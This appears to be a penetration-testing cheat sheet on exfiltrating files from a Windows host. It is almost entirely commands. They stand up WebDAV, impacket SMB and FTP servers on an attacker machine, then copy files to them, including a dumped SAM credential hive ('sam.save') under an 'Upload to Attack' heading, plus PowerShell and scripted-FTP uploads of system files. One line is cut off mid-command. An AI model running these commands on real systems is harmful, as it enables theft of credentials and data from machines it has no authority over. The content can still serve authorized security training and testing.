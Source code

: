 **Using the WebDav Python module**
```bash
$ sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
```

**Connecting to the Webdav Share**
```bash
C:\home> dir \\192.168.49.128\DavWWWRoot
```

**Uploading Files using SMB**
```bash
C:\home> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
```
### smbserver
**Creating a Share with smbserver.py**
```bash
$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/
```

**Upload to Attack**
```bash
C:\home> copy sam.save \\10.10.15.16\CompData

C:\home> move sam.save \\10.10.15.16\CompData

C:\home> copy n:\nc.ex
```

## FTP Uploads
```bash
$ sudo python3 -m pyftpdlib --port 21 --write
```

### PowerShell Upload File
```bash
PS > (New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

### Create a Command File for the FTP Client to Upload a File
```bash
C:\home> echo open 192.168.49.128 > ftpcommand.txt
C:\home> echo USER anonymous >> ftpcommand.txt
C:\home> echo binary >> ftpcommand.txt
C:\home> echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
C:\home> echo bye >> ftpcommand.txt
C:\home> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128

Log in with USER and PASS first.


ftp> USER anonymous
ftp> PUT c:\windows\system32\drivers\etc\hosts
ftp> bye
```

